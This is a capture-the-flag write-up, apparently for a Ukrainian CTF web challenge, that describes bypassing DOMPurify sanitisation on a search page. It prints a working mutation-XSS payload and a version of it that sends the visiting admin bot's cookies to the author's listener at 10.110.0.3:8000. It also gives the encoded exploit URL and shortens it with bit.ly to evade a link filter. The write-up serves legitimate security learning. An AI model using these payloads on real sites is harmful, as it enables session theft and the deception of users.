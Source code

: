 # Purr-Purr

```
Якщо ви читали "Мистецтво обману" Кевіна Митника, то знаєте яка найбільша вразливість у кібербезпеці.
```

After following the [link](https://purr-purr.ua30ctf.org/) we get the landing page with a frog Mike

![Mike](./images/landing_page.png)

The first strange thing i noticed that search button is blocked by the image so i guessed that the exploitation would be related to this. 

After exploring a little bit we can also find the contact button that leads to _/contact.php_ endpoint where we can submit a link to someone, very interesting.

![Contact](./images/contact.png)

Also in the source code we can __DOMpurify.min.js__ file. For now just taking notes.

So if we can submit a url to someone that will read it, the first thing that comes to mind is vulnerable xss page with attacker's payload, so let's try it with search functionality.

![XSS](./images/xss.png)

![Filtered](./images/filter.png)

It got completely filtered out. And when we look at the source code we can se DOMpurify.sanitize in action.

The code responsible for that:

```
var searchinput = getURLParameter('searchinput');
// If we have search query
if (searchinput != null && searchinput != "") {

    // You shall not pass
    var clean = DOMPurify.sanitize(searchinput);
    $("#current_search").html(clean);
    //alert(searchinput);
    //alert(clean);
```

I tried several more payloads to see how it behaves but only several html injection payloads seemed to work that would not lead to any vulnerability. So i started to google about DOMPurify bypass and found an [article](https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss). 

I use firefox so the last payload worked for me.

```
<math><mtext><table><mglyph><style><!--</style><img title="--&gt;&lt;/mglyph&gt;&lt;img&Tab;src=1&Tab;onerror=alert(1)&gt;">
```

Now that we have XSS let's modify the payload to steal the cookie of whoever reads our url after the sumbition on the contact page.

```
<math><mtext><table><mglyph><style><!--</style><img title="--&gt;&lt;/mglyph&gt;&lt;img&Tab;src&Tab;onerror=window.location.href='http://10.110.0.3:8000?cookie='+document.cookie;&gt;">
```

Where 10.110.0.3:8000 - our server. I used php, but you could use anything else such as python's http.server

```
[GMtranscendence] $ php -S 0.0.0.0:8000
[Fri Apr 28 20:11:28 2023] PHP 8.2.5 Development Server (http://0.0.0.0:8000) started
```

And we try to submit the following url that is automatically url encoded after we use the search functionality

```
https://purr-purr.ua30ctf.org/search.php?searchinput=%3Cmath%3E%3Cmtext%3E%3Ctable%3E%3Cmglyph%3E%3Cstyle%3E%3C%21--%3C%2Fstyle%3E%3Cimg+title%3D%22--%26gt%3B%26lt%3B%2Fmglyph%26gt%3B%26lt%3Bimg%26Tab%3Bsrc%26Tab%3Bonerror%3Dwindow.location.href%3D%27http%3A%2F%2F10.110.0.3%3A8000%3Fcookie%3D%27%2Bdocument.cookie%3B%26gt%3B%22%3E
```

![Submit](./images/xss_submit.png)

After that we can see the response 

![Response](./images/response.png)

Oh no, our link is too suspicious. Let's try to obfuscate it by shortening via bitly.com

```
https://bit.ly/426oVW9
```

And submit it again with fingers crossed








